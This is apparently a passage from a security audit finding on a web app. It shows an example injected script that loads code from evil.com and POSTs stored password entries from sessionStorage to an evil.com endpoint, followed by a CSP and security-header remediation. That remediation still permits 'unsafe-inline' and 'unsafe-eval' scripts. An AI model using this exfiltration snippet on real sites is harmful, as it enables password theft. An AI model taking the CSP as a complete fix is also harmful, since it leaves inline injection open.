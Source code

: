 **Attack Scenario:**
```html
<!-- Attacker injects malicious script through compromised dependency -->
<script src="https://evil.com/steal-passwords.js"></script>

<!-- Script runs and exfiltrates data -->
<script>
  // Access unprotected sessionStorage
  const entries = JSON.parse(sessionStorage.getItem('passwordEntries'));

  // Send to attacker server
  fetch('https://evil.com/exfil', {
    method: 'POST',
    body: JSON.stringify(entries)
  });
</script>
```

**Impact:**
- Session hijacking
- Password theft
- Phishing attacks
- Data exfiltration

**Remediation:**
```javascript
// next.config.js
const ContentSecurityPolicy = `
  default-src 'self';
  script-src 'self' 'unsafe-eval' 'unsafe-inline';
  style-src 'self' 'unsafe-inline';
  img-src 'self' data: https:;
  font-src 'self' data:;
  connect-src 'self' https://api.devnet.solana.com https://api.mainnet-beta.solana.com;
  frame-ancestors 'none';
  base-uri 'self';
  form-action 'self';
  upgrade-insecure-requests;
`;

const securityHeaders = [
  {
    key: 'Content-Security-Policy',
    value: ContentSecurityPolicy.replace(/\s{2,}/g, ' ').trim()
  },
  {
    key: 'X-Frame-Options',
    value: 'DENY'
  },
  {
    key: 'X-Content-Type-Options',
    value: 'nosniff'
  },
  {
    key: 'Referrer-Policy',
    value: 'strict-origin-when-cross-origin'
  },
  {
    key: 'Permissions-Policy',
    value: 'camera=(), microphone=(), geolocation=(), interest-cohort=()'
  },
  {
    key: 'Strict-Transport-Security',
    value: 'max-age=31536000; includeSubDomains'
  }
```